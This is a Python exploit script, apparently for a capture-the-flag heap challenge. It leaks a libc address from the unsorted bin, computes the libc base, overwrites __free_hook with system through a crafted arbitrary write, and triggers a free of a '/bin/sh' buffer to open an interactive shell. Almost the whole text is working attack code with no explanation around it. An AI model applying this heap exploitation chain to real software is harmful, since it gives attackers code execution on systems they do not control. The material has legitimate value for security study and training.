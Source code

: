 ```python
# Create another node to avoid consolidation with the top chunk.
n3 = create(nb)
# Free node 2 for the unsorted bin leak: the freed chunk now contains pointers to the main arena.
disconnect(nb, n2)
gc()
# Craft n1 so that we can read the pointers from the heap.
crafted = craft(n1, text_idx=n1, text_len=0x100)
print('writing', len(crafted), 'bytes:', crafted)
write_text(nb, crafted)
leak = read(n1)
print(leak)
leak_libc = u64(leak[160:160+8])
print('leak arena:', hex(leak_libc))
leak_offset = 2014176 # main_arena + 96
main_arena = 0x7ffff7c2cb80 # libc.symbols['main_arena']
print('main_arena', hex(main_arena))
print('leak_offset', hex(leak_offset))
libc_base = leak_libc - leak_offset
print('libc base:', hex(libc_base))
pause()

# Step 2: write what-were to get a shell.
libc.address = libc_base
system = libc.symbols['system']
what = system
print('system:', hex(system))
free_hook = libc.symbols['__free_hook']
where = free_hook
print('__free_hook:', hex(free_hook))
# write_bin bug again to control a second node.
write_bin(n3, '')
# This node can be overwritten with n3.text.
n4 = create(na)
# Prepare nodes for arbitrary write.
wherenode = craft(n1, edges=where-8, last_edge=where, edges_end=where+32)
whatnode = craft(n4, pool_idx=what)
write_text(n3, whatnode)
write_text(nb, wherenode)
# Trigger arbitrary write.
connect(n1, n4)
pause()

# Write in a chunk and trigger the free in write_text to call system("/bin/sh").
write_text(nb, b'/bin/sh\x00')
write_text(nb, 'A'*1500, shell=True)
p.interactive()
```